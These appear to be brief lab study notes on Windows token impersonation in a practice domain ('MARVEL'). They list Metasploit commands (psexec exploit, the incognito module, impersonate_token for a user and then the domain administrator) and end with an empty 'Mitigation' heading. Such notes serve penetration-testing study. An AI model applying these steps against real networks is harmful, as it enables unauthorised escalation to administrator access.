

temporary keys:access to a network without credentials, like cookies
#msfconsole
#use exploit/windows/smb/psexec

#show targets
#set target 2


#load (press tab twice for options) incognito


when you are logged in as fcastle

right now its showing MARVEL\fcastle
#impersonate_token marvel\\fcastle
but when you login as ADMIN on fcastle
#impersonate_token marvel\\administrator(2 backslash)

you get marvel\administrator
OR

#shell
#whoami


token stays in a computer until rebooted
Mitigation-------